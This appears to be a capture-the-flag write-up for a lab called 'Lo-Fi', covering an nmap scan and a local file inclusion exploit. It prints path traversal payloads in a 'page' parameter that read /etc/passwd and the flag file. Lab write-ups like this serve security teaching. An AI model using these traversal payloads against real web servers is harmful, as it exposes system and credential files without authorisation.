 # Lo-Fi write-up

First we define the IP
```
IP=xx.xx.xxx.xxx
```
## Nmap Scan
I started analyzing the environment using __`nmap`__  to discover open ports 

```
nmap -sV -sC -oN nmap_scan $IP
```

> - `-sV`: Detect service/version
> - `-sC`: Run default scripts
> - `-oN`: Output to file (normal format)



![image](https://github.com/user-attachments/assets/d8e915e9-250b-4fe4-817e-5fe510265fc2)

We see that port `80 (HTTP)` is open


![image](https://github.com/user-attachments/assets/ee77abff-0f66-4f70-8e99-76f8b7c0806d)

Let's try exploiting something here...



![image](https://github.com/user-attachments/assets/df9b828d-4d57-47cb-9681-6f63c5d21179)

With
```
?page=/../../../../etc/passwd
```
![image](https://github.com/user-attachments/assets/d16fa1dc-9e99-4ad1-9d33-f8593588a656)

Not good... but not bad either 
----
Let s try without the root directory first 


```
?page=../../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/9a7fa12b-6a74-4b1a-a9d9-d7398edf184e)

Perfect 👑
Now... where is the flag ? After some deep digging ... 2h 🥹 I found it in 
```
?page=../../../../flag.txt
```
![image](https://github.com/user-attachments/assets/974754f1-b5aa-4848-bbbd-584c8925605a)

 ## Conclusion
- The web server was vulnerable to LFI.
- The flag was located in `/flag.txt`.
- Took around 2 hours to find the exact path.





